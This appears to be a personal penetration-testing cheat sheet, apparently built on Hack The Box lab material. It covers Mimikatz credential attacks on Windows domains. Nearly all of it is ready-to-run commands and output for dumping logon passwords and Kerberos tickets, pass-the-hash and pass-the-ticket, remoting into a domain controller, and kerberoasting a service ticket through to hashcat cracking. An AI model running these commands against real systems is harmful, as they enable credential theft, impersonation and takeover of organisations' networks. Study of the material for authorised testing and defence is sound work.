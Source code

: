 ```yaml
---
tags:
  - windows
  - PtH
  - PtT
  - kerberoasting
---
```

# Modules
## Logon Passwords
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::logonpasswords" exit
```
## Export Tickets
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::tickets /export" exit
```
# Pass the Hash
Following are required:
- `/user` to authenticate as
- `/rc4` or `/NTLM` hash of the user's password.
- `/domain` the user to impersonate belongs to. If it's local user account, use the computer name, localhost, or a dot (.).
- `/run` - Program to run with the user's context (default cmd.exe).
```powershell
PS > mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /rc4:<RC4/NTLM HASH> /domain:<domain> /run:cmd.exe" exit
```

# Pass the Key / OverPass the Hash
## Extract Kerberos Keys
```powershell
PS > .\mimikatz.exe privilege::debug "sekurlsa::ekeys" exit
```

```powershell
PS > mimikatz.exe privilege::debug "/domain:inlanefreight.htb /user:plaintext /ntlm:<HASH>" exit
```

```powershell
PS > mimikatz.exe privilege::debug 'kerberos::ptt "C:\Path\to\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"' exit
```
>**Note:** Instead of opening mimikatz.exe with `cmd.exe` and exiting to get the ticket into the current command prompt, we can use the  `misc` module to launch a new command prompt window with the imported ticket using the `misc::cmd` command.

>**Note:** Mimikatz requires administrative rights for Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

# Powershell Remoting with PtT
```powershell
PS > mimikatz.exe privilege::debug 'kerberos::ptt "C:\Path\to\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"' exit
PS > Enter-PSSession -ComputerName DC01
```
# Kerberoasting
## Extract TGS Ticket from Memory
If the TGS ticket is in memory (from [[SetSPN]] for example), extract it:
```cmd-session
mimikatz # base64 /out:true
mimikatz # kerberos::list /export

<SNIP>
[00000002] - 0x00000017 - rc4_hmac_nt      
   Start/End/MaxRenew: 2/24/2022 3:36:22 PM ; 2/25/2022 12:55:25 AM ; 3/3/2022 2:55:25 PM
   Server Name       : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 @ INLANEFREIGHT.LOCAL
   Client Name       : htb-student @ INLANEFREIGHT.LOCAL
   Flags 40a10000    : name_canonicalize ; pre_authent ; renewable ; forwardable ; 
====================
Base64 of file : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
====================
doIGPzCCBjugAwIBBaEDAgEWooIFKDCCBSRhggUgMIIFHKADAgEFoRUbE0lOTEFO
RUZSRUlHSFQuTE9DQUyiOzA5oAMCAQKhMjAwGwhNU1NRTFN2YxskREVWLVBSRS1T
<SNIP>
32UeFiVp60IcdOjV4Mwan6tYpLm2O6uwnvw0J+Fmf5x3Mbyr42RZhgQKcwaSTfXm
LkxPQ0FMqTswOaADAgECoTIwMBsITVNTUUxTdmMbJERFVi1QUkUtU1FMLmlubGFu
ZWZyZWlnaHQubG9jYWw6MTQzMw==
====================
   * Saved to file     : 2-40a10000-htb-student@MSSQLSvc~DEV-PRE-SQL.inlanefreight.local~1433-INLANEFREIGHT.LOCAL.kirbi
<SNIP>
```
>Without `base64 /out:true` command, it will extract the tickets in `.kirbi` files, with which we can directly skip to `kirbi2john` step.
## Prepare the file for Cracking
- Clean the base64 and convert to `.kirbi`:
```shell-session
$ echo "<base64 blob>" |  tr -d \\n >> encoded_file
$ cat encoded_file | base64 -d > sqldev.kirbi
$ kirbi2john sqldev.kirbi
$ sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs.hashcat
$ cat sqldev_tgs_hashcat 

$krb5tgs$23$*sqldev.kirbi*$813149fb<SNIP>8e71a057feeab
```
## Crack the Hash using [[Hashcat]]
```shell-session
$ hashcat -m 13100 sqldev_tgs.hashcat /usr/share/wordlists/rockyou.txt
```